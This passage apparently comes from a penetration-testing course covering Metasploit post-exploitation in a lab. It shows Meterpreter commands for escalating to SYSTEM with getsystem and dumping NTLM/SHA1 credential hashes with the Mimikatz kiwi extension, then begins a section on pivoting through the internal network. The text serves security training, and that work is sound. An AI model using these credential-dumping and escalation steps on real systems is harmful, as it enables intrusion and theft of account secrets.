  As an example, let’s use the powershell_execute command to retrieve the PowerShell version through the $PSVersionTable.PSVersion global variable.

meterpreter > powershell_execute "$PSVersionTable.PSVersion"
[+] Command execution completed:
Major Minor Build Revision
----- ----- ----- --------
5 1 16299 248
meterpreter >

 Mimikatz is incredibly useful as well and luckily, an implementation of it is available as a Meterpreter extension.
 
 In this example, we will run the extension with load kiwi.
 
 Since mimikatz requires SYSTEM rights, we will run getsystem to automatically acquire SYSTEM privileges from our current high integrity shell (in the context of the offsec user).
 
 Finally, we will dump the systemcredentials with creds_msv:

meterpreter > load kiwi
Loading extension kiwi...
Success.
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > creds_msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============
Username Domain NTLM SHA1
DPAPI
-------- ------ ---- ----
-----
CLIENT251$ corp 4d4ae0e7cb16d4cfe6a91412b3d80ed4 5262a3692e319ca71ac2dfdb2f758e50
2adbf154
offsec corp e2b475c11da2a0748290d87aa966c327 8c77f430e4ab8acb10ead387d64011c7
6400d26e c10c264a27b63c4e66728bbef4be8aab
meterpreter > 
22.5.4 Pivoting with the Metasploit Framework

 After compromising a target, we can pivot from that system to additional targets.
 
 We can pivot from within the MSF, which is convenient, but lacks the flexibility of manual pivoting techniques.
 
 For example, let’s leverage our existing Meterpreter session to enumerate the internal network’s Active Directory infrastructure and pivot to other machines.
 
 To begin, we notice that the compromised windows client has two network interfaces


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/24.jpg)

C:\Users\offsec>ipconfig

Windows IP Configuration
